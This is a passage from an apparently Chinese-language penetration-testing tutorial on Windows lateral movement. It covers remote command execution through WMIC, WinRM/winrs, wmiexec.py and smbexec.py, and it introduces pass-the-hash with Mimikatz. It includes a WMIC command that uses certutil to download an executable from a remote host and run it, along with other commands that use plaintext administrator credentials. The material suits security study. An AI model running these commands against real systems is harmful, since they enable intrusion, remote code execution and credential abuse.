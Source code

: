 ![](https://image.3001.net/images/20200304/15833019312087.png!small)

创建进程：

```
wmic /node:186.64.10.13 /user:Administrator /password:Admin@123 process call create "calc.exe"
```

下载远程文件并执行:

```
wmic /node:186.64.10.13 /user:Administrator /password:Admin@123 process call create "cmd /c  certutil.exe -urlcache -split -f http://186.64.10.13/test.exe c:/windows/temp/test.exe & c:/windows/temp/test.exe"
```

创建交互式 shell:

使用 py 脚本调用 WMI 来模拟 psexec 的功能，基本上 psexec 能用的地方，这个脚本也能够使用。原理就是把数据先存到一个临时文件中，在每次读取完执行结果后就自动删除。可以用来回显执行命令的结果和获取半交互式的 shell

```
python wmiexec.py -share admin$ administrator:password@186.64.10.13
```

![](https://image.3001.net/images/20200304/15833019496220.png!small)

**3.2.4WinRM 远程管理服务**

WinRM 指的是 Windows 远程管理服务，通过远程连接 winRM 模块可以操作 windows 命令行，默认监听端口 5985（HTTP）&5986 (HTTPS)，在 2012 以后默认开启。

执行命令：

```
winrs -r:http://186.64.10.13:5985 -u:Administrator -p:Admin@123.. "whoami /all"    winrs -r:http://186.64.10.13:5985 -u:Administrator -p:Admin@123.. "cmd.exe"
```

![](https://image.3001.net/images/20200304/15833019684740.png!small)

**3.2.5SmbExec(445 端口)**

smbexec 是一款基于 psexec 的域渗透测试工具，并配套 samba 工具。

```
Smbexec.py administrator:password@186.64.10.13
```

![](https://image.3001.net/images/20200304/15833019793725.png!small)

### 3.3Pass The Hash

PTH(pass the hash) 攻击是指攻击者可以直接通过 LM Hash(已弃用) 或 NTLM Hash 访问远程主机或服务，而不提供明文密码。在 Windows 系统中，使用 NTLM 进行身份认证，当获取用户 hash 后，可以使用 Hash 传递的方式获取访问权限。

**3.3.1Mimikatz**

![](https://image.3001.net/images/20200304/15833019962490.png!small)
